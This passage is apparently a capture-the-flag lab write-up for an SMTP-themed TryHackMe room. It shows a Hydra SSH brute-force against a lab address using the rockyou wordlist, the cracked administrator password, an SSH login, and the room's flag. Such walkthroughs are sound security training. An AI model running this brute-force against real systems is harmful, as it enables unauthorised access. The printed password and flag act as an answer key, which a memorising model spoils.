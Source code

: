 #### Answer
What is the password of the user we found during our enumeration stage?
```bash
$ hydra -t 16 -l administrator -P /usr/share/wordlists/rockyou.txt.gz 10.10.50.74 ssh  
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-01-07 03:03:12
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.10.50.74:22/
[22][ssh] host: 10.10.50.74   login: administrator   password: alejandro
```
The password is **alejandro**.

Great! Now, let's SSH into the server as the user, what is contents of smtp.txt
```bash
$ ssh administrator@10.10.50.74 

administrator@10.10.50.74 password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-111-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Jan  7 08:05:21 UTC 2021

  System load:  0.02              Processes:           92
  Usage of /:   43.9% of 9.78GB   Users logged in:     0
  Memory usage: 17%               IP address for eth0: 10.10.50.74
  Swap usage:   0%


87 packages can be updated.
35 updates are security updates.


Last login: Wed Apr 22 22:21:42 2020 from 192.168.1.110
administrator@polosmtp:~$ ls
dead.letter  Maildir  smtp.txt
administrator@polosmtp:~$ cat smtp.txt 
THM{who_knew_email_servers_were_c00l?}
```
The flag is **THM{who_knew_email_servers_were_c00l?}**.


